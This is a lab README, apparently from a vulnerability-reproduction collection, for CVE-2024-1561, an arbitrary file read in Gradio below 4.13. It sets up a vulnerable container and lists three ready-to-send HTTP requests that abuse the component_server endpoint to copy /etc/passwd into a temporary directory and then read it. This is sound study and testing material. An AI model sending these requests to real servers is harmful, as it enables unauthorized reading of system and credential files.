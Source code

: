 # Gradio Arbitrary File Read Vulnerability (CVE-2024-1561)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library that allows users to quickly build visual web interfaces for machine learning models without writing front-end code.

The `component_server` interface in Gradio versions below 4.13 allows attackers to call any method of the `Component` class, such as copying any file in the system to a temporary directory through the `move_resource_to_block_cache` method and retrieving the content.

Reference Links:

+ https://github.com/gradio-app/gradio/pull/6884
+ https://nvd.nist.gov/vuln/detail/CVE-2024-1561

## Environment startup

Execute the following command to start an application written by Gradio 4.12.0:

```
docker compose up -d
```

After the environment is started, authentication is not enabled by default. You can access the application through `http://your-ip:7860`.

## Vulnerability Reproduction

Access the `config` interface and get the id field of a component, such as `3` here.

```
GET /config HTTP/1.1
Host: 127.0.0.1:7860
```

![image-20250427101524307](1.png)

Through the `move_resource_to_block_cache` method, the `/etc/passwd` file is written to a temporary directory, and Gradio will return the path to the temporary file.

```
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}

```

![image-20250427101900374](2.png)

Through the `file` interface and splicing the temporary file path, you can read the file content.

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860
```

![image-20250427101951481](3.png)